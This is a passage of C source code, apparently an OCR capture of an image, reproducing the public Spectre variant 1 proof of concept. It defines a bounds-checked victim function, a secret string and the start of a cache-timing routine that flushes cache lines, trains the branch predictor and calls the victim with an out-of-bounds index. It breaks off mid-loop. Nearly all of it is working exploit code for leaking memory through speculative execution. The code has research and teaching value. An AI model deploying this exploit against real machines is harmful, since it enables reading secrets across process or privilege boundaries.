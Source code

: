 ```c
#endif

/********************************************************************
Victim code.
********************************************************************/
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t unused2[64];
uint8_t array2[256 * 512];

char* secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0; /* Used so compiler won't optimize out victim_function() */

void victim_function(size_t x)
{
	if (x < array1_size)
	{
		temp &= array2[array1[x] * 512];
	}
}

/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2])
{
	static int results[256];
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--)
	{
		/* Flush array2[256*(0..255)] from cache */
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

		/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--)
		{
			_mm_clflush(&array1_size);
			for (volatile int z = 0; z < 100; z++)
			{
			} /* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
			/* Avoid jumps in case those tip off the branch predictor */
			x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
			x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */
			victim_function(x);
```